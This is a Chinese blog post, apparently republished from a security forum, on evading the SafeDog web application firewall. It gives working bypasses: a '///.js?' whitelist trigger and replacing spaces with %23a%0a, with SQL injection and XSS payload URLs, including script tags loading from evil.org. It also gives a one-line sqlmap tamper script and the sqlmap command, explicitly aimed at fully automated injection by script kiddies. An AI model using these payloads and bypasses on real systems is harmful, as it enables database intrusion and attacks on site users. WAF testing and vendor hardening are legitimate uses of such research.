


【思路/技术】某大佬的BypassWAF新思路（附脚本）
0x00前言
一直想找一个通用性的过狗方法，预期是这个绕过方法不会涉及到下面3个方面：
（1）中间件，如iis、apache
（2）数据库，如mysql、sql server
（3）脚本语言，如php、aspx、asp
网上关于安全狗的sql绕过研究，大多数是fuzz绕过的帖子，fuzz方法常常使用注释绕过，涉及到数据库特性，而且广泛用于注释语法的星号（*）可能会被网站自带的防恶意代码模块拦截了，在实践中体验不好。太多fuzz过waf的文章，多数是使用注释绕过，在我看来，所有fuzz绕过，本质就是正则匹配逃逸。
我计划写一篇脚本小子最爱的，涉及知识点最少，能直接放工具里全自动跑sql注入的过狗文章。
0x01 先说说安全狗是如何判断恶意代码
安全狗、云锁、D盾等软件waf，内置一套正则匹配检测规则。这类软件waf对恶意代码的认识很有限。例如安全狗iis版，只知道要防护的服务器是iis作为中间件，并不知道要防护的服务器上面部署的数据库类型[Mysql|Sql Server|Access..]以及脚本语言类型[php|aspx|asp...]。再者，由于是依靠正则规则看恶意代码，所以对恶意代码拦截不全面。
0x02 起因
某天，在本地搭建了一个Asp+Access+IIS环境，测试安全狗Bypass
用淘气字符串就绕过了安全狗的拦截。由于只能用在某些sql语句上，具体是哪一个字符串就无足轻重了。第一次在本地环境测试安全狗就绕过了，刚好那天看到论坛在征集优秀文章，计划着写处女作投稿。
附上地址，虽然字符串数量不多，但是确实很淘气...
https://github.com/minimaxir/big-list-of-naughty-strings/blob/master/blns.txt
淘气字符串
反复提交包含sql注入的数据包，Fuzz到了字符串<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
只有这一处，提示数据库报错了。
那么，安全狗是分析到了什么？安全狗是用正则匹配看代码的，所看到，肯定不是一大串字符。反复删减，最终出来了 ///.js?
0x03 绕过测试
///.js? js可以换成rm/wm/png/jpg等静态文件后缀
测试发现，只要url包含 ///.js? 就会触发内置的白名单，直接被iis版安全狗放行。既然是触发白名单，我直接把http防护策略全部开启，把防护等级调到最高来测试效果。
http://192.168.29.131:8980/sql.php?id=1%20and%201%3d1 (拦截)
http://192.168.29.131:8980/sql.php?id=1%20and%201%3d1&safe=%2f%2f%2f%2ejs%3f (放行)
http://192.168.29.131:8980/sql.php/1.js?id=1%20and%201%3d1 (放行)触发白名单直接放行url，顺带放行了XSS攻击代码，连xss过狗代码也不用研究了，哈哈。


http://192.168.29.131:8980/sql.php?id=1%20and%201%3d1&xss=<script>alert(/xss/)</script>&safe=///.js? (既有sql注入，又有xss攻击，放行)
http://192.168.29.131:8980/sql.php?id=1%20and%201%3d1&xss=<SCRIPT%20SRC=http://evil.org/xss.js?</script> （很evil，也放行）还能在url传输什么，放行恶意代码，脑洞...
不仅是放行url，连cookie位置也放行了。
但是当恶意代码放在post数据，就绕不过安全狗。
亲测，对于安全狗iis版，php,aspx,asp均能用这种方式过狗。
http://.../sql.php?safe=%2f%2f%2f%2ejs%3f&id=1
http://.../sql.aspx?safe=%2f%2f%2f%2ejs%3f&id=1
http://.../sql.asp?safe=%2f%2f%2f%2ejs%3f&id=1如果是Apache版安全狗，可以试试
http://.../sql.php/1.js?id=1
http://.../sql.aspx/1.js?id=1影响范围：
针对最新的安全狗iis版，只要url包含满足正则表达式 \\.*\\.*\\.*\.js.*\? 的字符串 （其中js可以替换成其他静态文件格式） 例如 ///.js?或http://ip/1.jpg? 就会触发内置白名单，无论数据库和脚本语言类型。触发白名单会放行url和cookie位置的恶意代码，但依然检查post的数据。
（Apache版的规则库不一样，手工测试出精简的字符串，但是url无效访问，所以Apache版的还只能按照http://.../sql.php/1.jpg?id=1触发白名单）
0x04 搜索公开技术贴
准备写稿了，防止遇到造轮子撞车，变换关键词，搜搜互联网最近半年的公开过狗技术帖。找到了一个造轮子的博客
https://www.jianshu.com/p/507439c2dd94
看图。这个造轮子方法已经很普遍出现在各种BypassWaf文章里面。
我的观点：安全狗不认识什么是php，所以这个bypass没挖掘到绕过的本质。而且有些php网站不支持PATH_INFO特性。对问题本质的理解不一样，如果是思考如何触发安全狗的正则匹配规则，就能发现这个绕过方法可以推广到aspx和asp。
虽然方法很简单，发现了如何触发内置白名单，放行恶意代码，但是无法绕过恶意代码出现在post数据的情况。美中不足，思绪一度搁浅，因为我计划写一篇“脚本小子最爱，涉及知识点最少，能直接放工具里全自动跑sql注入的过狗文章”。
0x05 峰回路转
择日再度整理思路，翻看手里的资料。再次看到上次那个造轮子博客。看到0x04造轮子三个字，我在思考什么是造轮子？一味地造轮子本身没有错，错在看不到车子，不清楚什么轮子最适合，于是就有了四方形，三角形，椭圆形的轮子，同样都是能上路的轮子。我的思维跳跃到了那个经典的fuzz造轮子代码。曾经用这个代码Fuzz一个小时的我，就觉得fuzz代码对sql语句的理解不多，出现很多没必要的测试。
手工测试sql语句的经验告诉我，所有fuzz过狗payload本质都是正则匹配逃逸（包括特殊的%00截断），正则匹配逃逸的核心要点绝不是/××/注释。于是对造轮子作者的payload进行测试，发现最终有用的是%23a%0a (安全狗4.0) 所以说，注释绕过的是 # 配合 \n
id=1 union select 1,2,3 （拦截）
id=1 union%23%0aselect 1,2,3 （拦截）
id=1 union%23a%0aselect 1,2,3 （放行）原理：安全狗遇到注释符号 # 就会丢弃后边代码的检测。为了提防使用回车\n绕过正则过滤，只是拦截了%23%0a，正则规则库没考虑到%23+字符串+%0a的情况，造成了BypassWaf。
改写了个 tamper ,命名为Bypassdog40.py （成功测试了iis版安全狗4.0和apache版安全狗4.0）
核心代码只有一条，把所有空格替换为 %23a%0a
if payload: retVal = re.sub(r"\s", r"%23a%0a", payload)执行
sqlmap -u “http://192.168.29.131:8980/sql.php?id=1” -v 3 --random-agent --tamper=Bypassdog40.py成功跑出所有sql注入payload
紧接着又测试注入点在post和cookie的情况，自动化注入过程很顺利。
查表，%0A被全部主流数据库支持，大概可以通杀安全狗了。
空白字符
SQLite3 0A 0D 0C 09 20
MySQL5 09 0A 0B 0C 0D A0 20
PosgresSQL 0A 0D 0C 09 20
Oracle 11g 00 0A 0D 0C 09 20
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20补充：安全狗Apache3.5 规则刚好相反，拦截%23a%0a，放行%23%0a，命名tamper为 Bypassdog35.py
0x06总结
真理总是直接，甚至是简单的
本文包含了两个过狗方法：
一个是触发内置白名单的正则规则，能放行url和cookie的恶意代码检测，包括了xss攻击。美中不足就是绕不过post数据的恶意代码检查。
另一个Bypass方法是传统方法，提供了很简单的tamper，核心代码只有一句，可以用sqlmap跑自动化，大致可以通杀安全狗。遇到无法读数据库情况，例如拦截了INFORMATION_SCHEMA，可以配合触发内置白名单的方法，直接放行。
本文中脚本文件的下载链接请在本公众号回复“过狗”获取。
免责声明：工具只能用于测试漏洞，禁止用于非法用途，否则一切后果自负。

作者：时间简史 来源：bbs.ichunqiu.com&EMlab攻防实验室